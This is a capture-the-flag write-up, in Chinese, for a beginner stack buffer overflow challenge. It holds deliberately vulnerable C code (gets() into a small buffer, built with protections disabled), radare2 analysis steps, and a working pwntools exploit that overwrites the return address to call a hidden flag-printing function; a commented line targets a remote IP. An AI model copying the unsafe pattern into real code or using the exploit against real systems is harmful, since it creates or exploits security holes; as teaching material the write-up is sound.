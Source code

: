 ## 題目
Billy want to go home now.
Do you know the address of his house ?
(Goal: 在程式裡有個未被執行的function，內有位置，想辦法呼叫它)

## 原始碼
```
// gohome.c

#include <stdio.h>
#include <stdlib.h>

void Billyshouse(){
    system("cat /home/ctf/flag");
}

int main(){
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);

    char address[32];

    printf("Billy want to go home now.\n");
    printf("Do you know the address of his house ?");

    gets(address);

    return 0;
}

```

## 建立pass執行檔
```
gcc -fno-stack-protector -z execstack gohome.c -o gohome -no-pie
```
在這裡我們需要加上 -fno-stack-protector，**以關閉CANNARY這個記憶體保護機制**

若要遠端測試(remote)連到server，則需要:
```
socat TCP-LISTEN:20000,fork EXEC:'./gohome'

```

## 逆向分析
### 用 radare2 做 static analysis
```
r2 pass
aa
afl
s.main
VV
```
![image](https://user-images.githubusercontent.com/22366572/138510290-8d5e3ac9-c2b1-4ac5-a249-50e76b623007.png)


### 分析 Billyshouse:
```
s sym.Billyshouse
VV
```
![image](https://user-images.githubusercontent.com/22366572/138510580-44475b8a-86bf-4d7f-8f68-295e31b3f2f0.png)

發現此執行檔的**stack frame**長這樣:
![image](https://user-images.githubusercontent.com/22366572/138510724-85d30fca-d614-446e-92e1-bad156deb8f3.png)
根據 stack frame 我們可以撰寫exploit code

## 撰寫exploit code
我的 Billyshouse()位址是在 0x00401152 ，exploit code寫作以下:
```
from pwn import *

ip = "120.114.62.211"
port = 6126

context.arch = "amd64"

r = process('./gohome')
#r = remote(ip, port)

r.sendlineafter("?",b"a"*40+p64(0x00401152)) # fill in Billyshouse address

r.interactive()
```

這裡附一張 pwn 常用的函數表方便知道程式意義:
![image](https://user-images.githubusercontent.com/22366572/138511092-f64ca6b2-c606-47ba-992c-b37367801df8.png)

## 測試結果成功!
![image](https://user-images.githubusercontent.com/22366572/138511684-8cf17684-0818-4afd-af11-aa6dd07dee10.png)
(因為是在local host執行，所以把 Billyshouse() 改成印 ":DDDDD!!!!")
